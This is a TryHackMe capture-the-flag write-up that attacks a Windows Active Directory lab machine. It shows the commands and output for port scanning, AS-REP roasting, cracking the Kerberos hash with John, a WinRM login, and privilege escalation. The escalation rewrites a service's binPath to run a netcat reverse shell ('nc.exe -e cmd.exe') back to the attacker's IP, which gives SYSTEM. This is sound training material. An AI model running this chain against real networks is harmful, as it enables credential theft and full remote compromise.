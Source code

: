 ```yaml
---

categories: [TryHackMe]
tags: [ netexec, PrivEsc, ASREPRoast, GetNPUsers, Service_Operators, Windows]
img_path: /assets/images/
image:
  width: "1200"
  height: "630"
  alt: Active Directory Medium Level Machine 🛍️
  path: https://pbs.twimg.com/media/FuQbBW_WIAoU8CR.jpg
---
```

## Port Scan Results ⤵️
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Service]
└─$ sudo nmap -sC -sV -T4 -p- -oN Nmap_Results.txt 10.10.239.246 -Pn
Nmap scan report for 10.10.239.246
Host is up (0.17s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-21 07:36:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SERVICES
|   NetBIOS_Domain_Name: SERVICES
|   NetBIOS_Computer_Name: WIN-SERVICES
|   DNS_Domain_Name: services.local
|   DNS_Computer_Name: WIN-SERVICES.services.local
|   DNS_Tree_Name: services.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-21T07:37:25+00:00
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2024-02-20T07:21:03
|_Not valid after:  2024-08-21T07:21:03
|_ssl-date: 2024-02-21T07:37:33+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-21T07:37:27
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
## Web Enumeration ⤵️

I enumerated the port 80 and in contact part I noticed an email ID like this j.doe@services.local and from about.html page I got some users like these 🔻
![Image](Pasted%20image%2020240221131446.png)
_Users from about.html page_

I made a users.txt file that include the usernames as Joanne Doe to j.doe like I suspected so I made all the users have that format of username .
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Service]
└─$ cat users.txt          
j.doe
j.rock
w.masters
j.larusso    
```
Now I have to  look for `ASRep-Rosting` for that I performed `GetNPUsers.py` with that username file and I got this result ⏬ 
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Service]
└─$ /opt/Tools/impacket/examples/GetNPUsers.py -no-pass 'services.local/' -dc-ip 10.10.239.246 -request -usersfile users.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User j.doe does not have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$j.rock@SERVICES.LOCAL:5bf80cb45d84a6e9e02eab6ed07f7978$9fd9582043ab1891ac419b2bd3b016cca950eb0718c5e204c977e77cb32b1cede5b471b6369b4f2817c6cccd7273a49e6c6384fb99393375cda5476ac0c1491c3a2f6e3ea3b4f80e72bc1fc35e71a43ff0ee3fde1d762c2318ed8c7ba34f388b689f8e3d1e09dbaf1ce4060531fa96f1a6538a55afc872fa97ba8bfb200b5bd12d39a296e69e5017c114b0305f85d06b9ac841e72e9fd2075265a0b08bbfc04537cecfc2934d70a52ad43c1df13b24ebf51f9bc1c0a324c9a34fdf0d42495d2943d92c1e612acd9ffbbe1ef1f1341aac2fc396a5d42dd6705f849d0cf2c5dc7f4f932c5cc6............9
[-] User w.masters does not have UF_DONT_REQUIRE_PREAUTH set
[-] User j.larusso does not have UF_DONT_REQUIRE_PREAUTH set
```
So lets crack this ticket now with john the ripper tool ⏩
```bash        
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Service]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD>    ($krb5asrep$23$j.rock@SERVICES.LOCAL)     
1g 0:00:00:34 DONE (2024-02-21 13:11) 0.02913g/s 309079p/s 309079c/s 309079C/s SexieEyez1..Sergio03
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Lets see what privileges does this user have ->
![Image](Pasted%20image%2020240221132653.png)
_Netexec Tool to check the smb,winrm permissions._
Lets have a winrm-session ->
![Image](Pasted%20image%2020240221132539.png)
_evil-winrm Tool that gives the access for winrm service_
Lets access some flags ->
```powershell
*Evil-WinRM* PS C:\Users\j.rock> tree /f /a
Folder PATH listing
Volume serial number is A8A4-C362
C:.
+---Desktop
|       EC2 Feedback.website
|       EC2 Microsoft Windows Guide.website
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\j.rock>
```
I checked the privileges and got to know that this user is part of service operators group so I can leverage that part to get to Administrator like this ->
![Image](Pasted%20image%2020240221141224.png)
_whoami /all command , part of Service Operators group_
Now I will see the services running on this machine that will works as a beacon to execute my payload like this ->
![Image](Pasted%20image%2020240221141435.png)
_services running on this system_
I will be using <span style="color:#61ffe5">cfn-hup</span> service to change its path to my payload and for payload I need to upload `nc.exe` in this machine 🔽
```powershell
*Evil-WinRM* PS C:\Users\j.rock> upload ../../../../../../usr/share/windows-binaries/nc.exe
                                        
Info: Uploading /home/kali/Downloads/Tryhackme/Service/../../../../../../usr/share/windows-binaries/nc.exe to C:\Users\j.rock\nc.exe
                                        
Data: 79188 bytes of 79188 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\j.rock>
*Evil-WinRM* PS C:\Users\j.rock> sc.exe config cfn-hup binPath="C:\\Users\\j.rock\\nc.exe -e cmd.exe 10.14.72.139 445"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\j.rock> sc.exe stop cfn-hup
*Evil-WinRM* PS C:\Users\j.rock> sc.exe start cfn-hup
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\j.rock>
```
For at most 10-15 sec the reverse shell is active then the service did not response in that while I enumerated the Administrators filesystem like this 🔻
```powershell
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Service]
└─$ rlwrap nc -lvnp 445 
listening on [any] 445 ...
connect to [10.14.72.139] from (UNKNOWN) [10.10.239.246] 61223
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
WIN-SERVICES

C:\Windows\system32>
C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is FFFFFFFE A8A4:C362
C:.
+---3D Objects
+---Contacts
+---Desktop
|       EC2 Feedback.website
|       EC2 Microsoft Windows Guide.website
|       root.txt
|       
+---Documents
|   \---WindowsPowerShell
|       +---Modules
|       |   \---psprivilege
|       |       \---0.2.0
|       |           |   PSPrivilege.Format.ps1xml
|       |           |   PSPrivilege.psd1
|       |           |   PSPrivilege.psm1
|       |           |   
|       |           +---bin
|       |           |   +---net472
|       |           |   |       PSPrivilege.dll
|       |           |   |       PSPrivilege.pdb
|       |           |   |       
|       |           |   \---netcoreapp3.1
|       |           |           PSPrivilege.deps.json
|       |           |           PSPrivilege.dll
|       |           |           PSPrivilege.pdb
|       |           |           
|       |           \---en-US
|       |                   about_PSPrivilege.help.txt
|       |                   PSPrivilege.dll-Help.xml
|       |                   
|       \---Scripts
|           \---InstalledScriptInfos
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{<FLAG---FLAG---FLAG>}

C:\Users\Administrator\Desktop>
```
I am Administrator Now !!